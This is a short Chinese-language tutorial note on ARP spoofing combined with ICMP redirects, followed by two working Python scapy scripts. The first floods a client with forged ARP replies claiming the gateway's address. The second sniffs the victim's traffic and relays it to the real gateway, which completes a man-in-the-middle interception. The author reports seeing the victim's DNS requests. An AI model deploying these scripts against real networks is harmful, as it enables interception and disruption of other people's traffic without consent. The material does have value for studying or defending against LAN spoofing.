


arp欺骗和ICMP重定向
======

为了跨网段的arp欺骗

###什么是ICMP重定向
            
ICMP重定向报文是ICMP控制报文中的一种。在特定的情况下，当路由器检测到一台机器使用非优化路由的时候，它会向该主机发送一个ICMP重定向报文，请求主机改变路由。路由器也会把初始数据报向它的目的地转发。

###步骤

发送一个原ip地址为192.168.0.3硬件地址为BB:BB:BB:BB:BB:BB（自己的mac地址）的ARP响应包。 好了，现在每台主机都知道了，一个新的MAC地址对应 192.0.0.3,一个ARP欺骗完成了，但是，每台主机都只会在局域网中找这个地址而根本就不会把发送给192.0.0.3的ip包丢给路由。于是他 还得构造一个ICMP的重定向广播。 自己定制一个ICMP重定向包告诉网络中的主机："到192.0.0.3的路由最短路径不是局域网，而是路由，请主机重定向你们的路由路径，把所有到192.0.0.3的ip包丢给路由。"主机A接受这个合理的ICMP重定向，于是修改自己的路由路径，把对192.0.0.3的通讯都丢给路由器。

####code:

    from scapy.all import *
    import time
    '''
    欺骗客户端：说网关192.168.1.1在我机子的mac这里，所以都会向我发送数据，于是他会断网
    '''
    
    
    clientMAC="4c:b1:99:09:c6:33"
    gateway = "192.168.1.1"
    client = "192.168.1.101"
    m = Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client)
    m.show()
    # send(m, inter=RandNum(10,40), loop=1  )
    # 
    
    while 1:
        	sendp(m)
        	time.sleep(4)
        	
   
运行`sudo python arp.py`并查看wireshare

果然做出了应答。
并向我发送DNS请求。

于是再写了一个脚本，用来将我收到pad的数据转发给网关

    from scapy.all import *
    import time
    
    def resend(x):
        	# x.show()
        	x[Ether].dst = "f0:eb:d0:0b:11:48"
        	# x[IP].dst = "192.168.1.1"
        	# del(x[IP])
        	sendp(x)
    
    
    # not contains arp and 
    sniff(iface="wlan0", filter=" host 192.168.1.101 ", prn=lambda x: resend(x))
  
于是pad又能上网了。。。

